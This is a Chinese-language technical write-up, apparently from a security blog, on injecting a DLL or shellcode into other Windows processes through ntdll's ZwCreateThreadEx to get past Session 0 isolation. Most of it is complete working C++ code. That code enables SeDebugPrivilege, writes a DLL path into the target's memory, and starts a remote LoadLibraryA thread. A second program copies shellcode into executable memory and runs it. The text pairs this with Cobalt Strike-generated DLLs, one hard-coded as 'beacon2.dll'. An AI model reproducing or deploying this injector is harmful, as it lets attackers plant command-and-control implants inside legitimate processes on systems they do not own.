> https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/using-nt-and-zw-versions-of-the-native-system-services-routines


`ZwCreateThreadEx`在 ntdll.dll 中并没有声明，需要使用 `GetProcAddress` 从 ntdll.dll 中获取该函数的导出地址。
64位和32位中，函数定义不一样：

64 位：

```c
DWORD WINAPI ZwCreateThreadEx(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);

```

32 位：

```c
DWORD WINAPI ZwCreateThreadEx(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);

```


## 注入步骤

1. 提升当前进程权限
2. 获取目标进程PID
3. OpenProcess() 打开目标进程，获取进程句柄
4. 在注入的进程申请内存地址   VirtualAllocEx VirtualAllocEx()
5. 在目标进程开辟的内存中写入DLL完整路径 WriteProcessMemory()
6. 加载ntdll，从Ntdll中获取ZwCreateThreadEx函数地址，从Kernel32中获取LoadLibraryA/W地址
7. 使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入


1、提升当前进程权限

> https://www.writebug.com/git/Leftme/AdjustTokenPrivileges-Test

```c
BOOL EnbalePrivileges(HANDLE hProcess, const char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;
	DWORD dwRet = 0;

	// 打开进程令牌并获取具有 TOKEN_ADJUST_PRIVILEGES 权限的进程令牌句柄
	bRet = ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
	if (FALSE == bRet)
	{
		printf("OpenProcessToken error\n");
		return FALSE;
	}
	// 获取本地系统的 pszPrivilegesName 特权的LUID值
	bRet = ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);
	if (FALSE == bRet)
	{
		printf("LookupPrivilegeValue error\n");
		return FALSE;
	}
	// 设置提升权限信息
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	// 提升进程令牌访问权限
	bRet = ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
	if (FALSE == bRet)
	{
		printf("AdjustTokenPrivileges error\n");
		return FALSE;
	}
	else
	{
		// 根据错误码判断是否特权都设置成功
		dwRet = ::GetLastError();
		if (ERROR_SUCCESS == dwRet)
		{
			return TRUE;
		}
		else if (ERROR_NOT_ALL_ASSIGNED == dwRet)
		{
			
			return FALSE;
		}
	}

	return FALSE;
}
```


2、获取目标进程PID

此处是遍历系统进程打印，手动输入PID

```c
void GetProcessInfo()
{
	HANDLE hSnapshot;
	PROCESSENTRY32 ProcessEntry;
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(hSnapshot, &ProcessEntry))
	{
		do
		{
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} while (Process32Next(hSnapshot, &ProcessEntry));
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}
```


3、OpenProcess() 打开目标进程，获取进程句柄

```c
hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (hProcess == NULL) {
		printf("OpenProcess Error");
		return -1;
	}
```

4、在注入的进程申请内存地址   VirtualAllocEx VirtualAllocEx()

```c
dwSize = 1 + ::lstrlen(pszDllFileName);
	dllBaseAddr = ::VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == dllBaseAddr)
	{
		ShowError("VirtualAllocEx");
		return FALSE;
	}
```

5、在目标进程开辟的内存中写入DLL完整路径 WriteProcessMemory()

```c
//写入内存地址
	if (FALSE == ::WriteProcessMemory(hProcess, dllBaseAddr, pszDllFileName, dwSize, NULL))
	{
		ShowError("WriteProcessMemory");
		return FALSE;
	}
```

6、加载ntdll，从Ntdll中获取ZwCreateThreadEx函数地址，从Kernel32中获取LoadLibraryA/W地址

```c
//加载ntdll
	HMODULE hNtdllDll = ::LoadLibrary("ntdll.dll");
	if (NULL == hNtdllDll)
	{
		ShowError("LoadLirbary");
		return FALSE;
	}

	// 获取LoadLibraryA函数地址
	FARPROC pFuncLoadLibraryAddr = ::GetProcAddress(::GetModuleHandle("Kernel32.dll"), "LoadLibraryA");
	if (NULL == pFuncLoadLibraryAddr)
	{
		ShowError("GetProcAddress_LoadLibraryA");
		return FALSE;
	}

	//获取ZwCreateThreadEx函数地址
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)::GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		ShowError("GetProcAddress_ZwCreateThread");
		return FALSE;
	}
```

7、使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入

```c
// 使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入
	HANDLE hRemoteThread = NULL;
	dwStatus = ZwCreateThreadEx(
		&hRemoteThread, 
		PROCESS_ALL_ACCESS, 
		NULL, 
		hProcess, 
		(LPTHREAD_START_ROUTINE)pFuncLoadLibraryAddr,
		dllBaseAddr, 0, 0, 0, 0, NULL);

	if (NULL == hRemoteThread)
	{
		printf("ZwCreateThreadEx CreateRemoteThread failure\n");
		ShowError("ZwCreateThreadEx");
		return FALSE;
	}
	printf("ZwCreateThreadEx CreateRemoteThread = 0x%x\n", hRemoteThread);


	WaitForSingleObject(hRemoteThread, -1);
	DWORD exitCode = 0;
	if (!GetExitCodeThread(hRemoteThread, &exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);
```


总代码：

```c
// ZwCreateThreadEx1.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <tlhelp32.h>
#include <tchar.h>
#pragma comment(lib,"Advapi32.lib") 


using namespace std;

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

BOOL EnbalePrivileges(HANDLE hProcess, const char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;
	DWORD dwRet = 0;

	// 打开进程令牌并获取具有 TOKEN_ADJUST_PRIVILEGES 权限的进程令牌句柄
	bRet = ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
	if (FALSE == bRet)
	{
		printf("OpenProcessToken error\n");
		return FALSE;
	}
	// 获取本地系统的 pszPrivilegesName 特权的LUID值
	bRet = ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);
	if (FALSE == bRet)
	{
		printf("LookupPrivilegeValue error\n");
		return FALSE;
	}
	// 设置提升权限信息
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	// 提升进程令牌访问权限
	bRet = ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
	if (FALSE == bRet)
	{
		printf("AdjustTokenPrivileges error\n");
		return FALSE;
	}
	else
	{
		// 根据错误码判断是否特权都设置成功
		dwRet = ::GetLastError();
		if (ERROR_SUCCESS == dwRet)
		{
			return TRUE;
		}
		else if (ERROR_NOT_ALL_ASSIGNED == dwRet)
		{
			
			return FALSE;
		}
	}

	return FALSE;
}

void ShowError(const char* pszText)
{
	char szErr[MAX_PATH] = { 0 };
	::wsprintf(szErr, "%s Error[%d]\n", pszText, ::GetLastError());
	::MessageBox(NULL, szErr, "ERROR", MB_OK);
}

BOOL InjectDll(DWORD PID, const char* pszDllFileName)
{
	HANDLE hProcess = NULL;
	SIZE_T dwSize = 0;
	LPVOID dllBaseAddr = NULL;
	DWORD dwStatus = 0;
	


	hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (hProcess == NULL) {
		printf("OpenProcess Error");
		return -1;
	}

	dwSize = 1 + ::lstrlen(pszDllFileName);
	dllBaseAddr = ::VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == dllBaseAddr)
	{
		ShowError("VirtualAllocEx");
		return FALSE;
	}


	//写入内存地址
	if (FALSE == ::WriteProcessMemory(hProcess, dllBaseAddr, pszDllFileName, dwSize, NULL))
	{
		ShowError("WriteProcessMemory");
		return FALSE;
	}

	//加载ntdll
	HMODULE hNtdllDll = ::LoadLibrary("ntdll.dll");
	if (NULL == hNtdllDll)
	{
		ShowError("LoadLirbary");
		return FALSE;
	}

	// 获取LoadLibraryA函数地址
	FARPROC pFuncLoadLibraryAddr = ::GetProcAddress(::GetModuleHandle("Kernel32.dll"), "LoadLibraryA");
	if (NULL == pFuncLoadLibraryAddr)
	{
		ShowError("GetProcAddress_LoadLibraryA");
		return FALSE;
	}

	//获取ZwCreateThreadEx函数地址
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)::GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		ShowError("GetProcAddress_ZwCreateThread");
		return FALSE;
	}


	// 使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入
	HANDLE hRemoteThread = NULL;
	dwStatus = ZwCreateThreadEx(
		&hRemoteThread, 
		PROCESS_ALL_ACCESS, 
		NULL, 
		hProcess, 
		(LPTHREAD_START_ROUTINE)pFuncLoadLibraryAddr,
		dllBaseAddr, 0, 0, 0, 0, NULL);

	if (NULL == hRemoteThread)
	{
		printf("ZwCreateThreadEx CreateRemoteThread failure\n");
		ShowError("ZwCreateThreadEx");
		return FALSE;
	}
	printf("ZwCreateThreadEx CreateRemoteThread = 0x%x\n", hRemoteThread);


	WaitForSingleObject(hRemoteThread, -1);
	DWORD exitCode = 0;
	if (!GetExitCodeThread(hRemoteThread, &exitCode))
	{
		printf("GetExitCodeThread  failure\n");
		printf("errcode = %d\n", GetLastError());
	}
	printf("thread exitcode = 0x%x\n", exitCode);

	if (dllBaseAddr != NULL)
		VirtualFreeEx(hProcess, dllBaseAddr, 0, MEM_RELEASE);

	if (hRemoteThread != NULL)
		CloseHandle(hRemoteThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return TRUE;
}

void GetProcessInfo()
{
	HANDLE hSnapshot;
	PROCESSENTRY32 ProcessEntry;
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(hSnapshot, &ProcessEntry))
	{
		do
		{
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} while (Process32Next(hSnapshot, &ProcessEntry));
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}


int main(int argc, char* argv[])
{
	GetProcessInfo();

	HANDLE hCurrentProcess = GetCurrentProcess();

	BOOL Pri = EnbalePrivileges(hCurrentProcess, SE_DEBUG_NAME);
	if (Pri==FALSE)
	{
		printf("EnbalePrivileges fauile\n");
	}

	/**/
	if (argc != 3)
	{
		printf("Usage:\n");
		printf("%s <PID> <Dll Full Path>\n", argv[0]);
		return 0;
	}
	

	const char* dllPath = "C:\\Users\\drop\\Desktop\\beacon2.dll";
	DWORD PID = 348;

	BOOL bRet = InjectDll(atoi(argv[1]), argv[2]);
	//BOOL bRet = InjectDll(PID, dllPath);
	if (FALSE == bRet)
	{
		printf("Inject Dll Error.\n");
	}
	return 0;
}
```

使用CS分别生成 32核64 位DLL，然后在编译生成32位核64 位EXE，注入32位程序就使用32位EXE和32位DLL，64位同理




还可以注入SHELLCODE：

> https://blog.csdn.net/weixin_43815930/article/details/109923815

```c
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>


//shellcode机器码
const char shellcode[] =
{
	0x55,0x8b,......,0x7e,0xb3
};


/*判断系统架构，并定义ZwCreateThreadEx函数指针*/
#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

/*
根据进程名获取进程pid，执行无误返回进程pid，出错返回-1
ProcessName:进程名
backCode:错误返回码
*/BOOL GetProcessIdByProcessImageName(HANDLE* ProcessID, const TCHAR* ProcessImageName)
{
	BOOL IsOk = FALSE;
	HANDLE SnapshotHandle = INVALID_HANDLE_VALUE;
	PROCESSENTRY32 ProcessEntry32;
	ProcessEntry32.dwSize = sizeof(PROCESSENTRY32);
	int LastError = 0;

	SnapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	//TH32CS_SNAPPROCESS:Includes all processes in the system in the snapshot.To enumerate the processes,
	if (SnapshotHandle == INVALID_HANDLE_VALUE)
	{
		LastError = GetLastError();
		return FALSE;
	}

	if (!Process32First(SnapshotHandle, &ProcessEntry32))
	{

		LastError = GetLastError();
		goto Exit;
	}

	do
	{
		if (strcmp(ProcessEntry32.szExeFile, ProcessImageName) == 0)
		{
			*ProcessID = (HANDLE)ProcessEntry32.th32ProcessID;
			IsOk = TRUE;
			goto Exit;
		}
	} while (Process32Next(SnapshotHandle, &ProcessEntry32));

Exit:

	if (SnapshotHandle != INVALID_HANDLE_VALUE)
	{
		CloseHandle(SnapshotHandle);
	}
	SnapshotHandle = INVALID_HANDLE_VALUE;
	SetLastError(LastError);
	return IsOk;

}


BOOL ZwCreateThreadExInjectShellcode(DWORD dwProcessId)
{
	HANDLE hProcess = NULL;
	LPVOID ShellcodeBuffer = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	DWORD dwStatus = 0;
	SIZE_T write_len = 0;

	// 打开进程
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (NULL == hProcess) {
		printf("Error OpenProcess:%d", GetLastError());
		return FALSE;
	}

	// 申请内存
	
	//在要被注入的进程中创建内存，用于存放注入dll的路径
	ShellcodeBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (ShellcodeBuffer == NULL)
	{
		puts("Buff alloc error");
		return 0;
	}

	// 写入数据

	WriteProcessMemory(hProcess, ShellcodeBuffer, shellcode, sizeof(shellcode), &write_len);
	if (sizeof(shellcode) != write_len)
	{
		puts("write error");
		return 0;
	}


	// 加载ntdll.dll
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	if (NULL == hNtdllDll) {
		printf("Error Load 'ntdll.dll':%d", GetLastError());
		return FALSE;
	}

	//加载ntdll.dll并从中获取内核函数ZwCreateThread，并使用函数指针指向此函数
	hNtdllDll = LoadLibrary("ntdll.dll");
	// 获取ZwCreateThreadEx函数地址
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx) {
		printf("Error GetProcAddress 'ZwCreateThreadEx':%d", GetLastError());
		return FALSE;
	}

	//执行ZwCreateThread函数，在指定进程中创建线程加载要被注入的dll
	dwStatus = ZwCreateThreadEx(
		&hRemoteThread,
		PROCESS_ALL_ACCESS,
		NULL,
		hProcess,
		(LPTHREAD_START_ROUTINE)ShellcodeBuffer,
		NULL,
		0, 0, 0, 0,
		NULL
	);

	if (hRemoteThread == NULL)
	{
		puts("zwcreatethread fun error");
		return 0;
	}
	CloseHandle(hProcess);
	FreeLibrary(hNtdllDll);

	return TRUE;
}

/*
主函数
*/
int main(int argv, char* argc[])
{

	LPVOID PID = NULL;


	//通过进程名获取pid
	GetProcessIdByProcessImageName(&PID, argc[1]);
	if ((int)PID == FALSE)
	{
		puts("pid get error");
		return 0;
	}

	BOOL ret = ZwCreateThreadExInjectShellcode((int)PID);
	if (ret == FALSE)
	{
		printf("ZwCreateThreadExInjectShellcode error\n");
	}
	
	return 0;
}
```




注意：这里一直想通过命令行传SHELLCODE，但是参数处理一直不对


参考：

> 突破session 0的远程线程注入 https://xz.aliyun.com/t/10318#toc-9
>
> 突破session0隔离的远线程注入 https://cloud.tencent.com/developer/article/1889334
>
> Bypass Session 0 Injection https://idiotc4t.com/code-and-dll-process-injection/bypass-session-0-injection
>
> 远程线程注入突破SESSION 0 https://www.cnblogs.com/nice0e3/p/15318327.html#%E7%AA%81%E7%A0%B4session-0
>
> 使用AdjustTokenPrivileges函数提升进程访问令牌的权限 https://www.writebug.com/git/Leftme/AdjustTokenPrivileges-Test
>
> 远程线程注入Dll，突破Session 0 https://cloud.tencent.com/developer/article/1824054
>
> Breakthrough session isolation of Windows service - remote thread injection https://zditect.com/code/breakthrough-session-isolation-of-windows-service--remote-thread-injection.html
>
> [Inject DLL to process in session 0 by NtCreateThreadEx](https://stackoverflow.com/questions/35995224/inject-dll-to-process-in-session-0-by-ntcreatethreadex) 
>
> 技术分享 | DLL注入之远线程注入 https://www.freebuf.com/articles/web/291412.html
>
> 

